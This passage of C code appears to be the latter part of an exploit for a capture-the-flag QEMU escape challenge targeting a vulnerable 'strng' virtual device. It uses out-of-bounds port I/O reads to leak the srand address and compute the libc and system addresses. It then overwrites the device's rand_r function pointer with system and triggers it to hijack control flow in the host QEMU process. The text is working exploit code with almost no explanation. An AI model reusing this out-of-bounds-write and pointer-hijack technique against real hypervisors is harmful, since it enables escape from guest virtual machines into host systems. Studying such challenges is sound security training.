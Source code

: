 ```c

    pmio_write(pmio_port + STRNG_PMIO_ADDR, (STRNG_MMIO_REGS + 1) << 2);
    srand_addr_low = pmio_read(pmio_port + STRNG_PMIO_DATA);
    pmio_write(pmio_port + STRNG_PMIO_ADDR, (STRNG_MMIO_REGS + 2) << 2);
    srand_addr_high = pmio_read(pmio_port + STRNG_PMIO_DATA);

    srand_addr = srand_addr_high;
    srand_addr <<= 32;
    srand_addr += srand_addr_low;
    libc_addr = srand_addr - 0x460a0;
    system_addr = libc_addr + 0x50d60;

    printf("[+] get addr of srand: 0x%llx\n", srand_addr);
    printf("[+] libc addr: 0x%llx\n", libc_addr);
    printf("[+] system addr: 0x%llx\n", system_addr);

    /*
     * Stage.II - overwrite the rand_r ptr
     * set the strng->rand_r to system by oob write in pmio
     */
    puts("\n[*] Stage.II - overwrite the rand_r ptr\n");

    pmio_write(pmio_port + STRNG_PMIO_ADDR, (STRNG_MMIO_REGS + 5) << 2);
    pmio_write(pmio_port + STRNG_PMIO_DATA, (uint32_t) system_addr);
    pmio_write(pmio_port + STRNG_PMIO_ADDR, (STRNG_MMIO_REGS + 6) << 2);
    pmio_write(pmio_port + STRNG_PMIO_DATA, (uint32_t) (system_addr >> 32));

    puts("[+] write done!");

    /*
     * Stage.III - control flow hijack!
     * call the strng->rand_r by pmio_write and hijack the control flow!
     */
    puts("\n[*] Stage.III - control flow hijack\n");

    puts("[*] trigger the strng->rand_r()...");
    pmio_write(pmio_port + STRNG_PMIO_ADDR, 3 << 2);
    pmio_write(pmio_port + STRNG_PMIO_DATA, 0xdeadbeef);

}
```
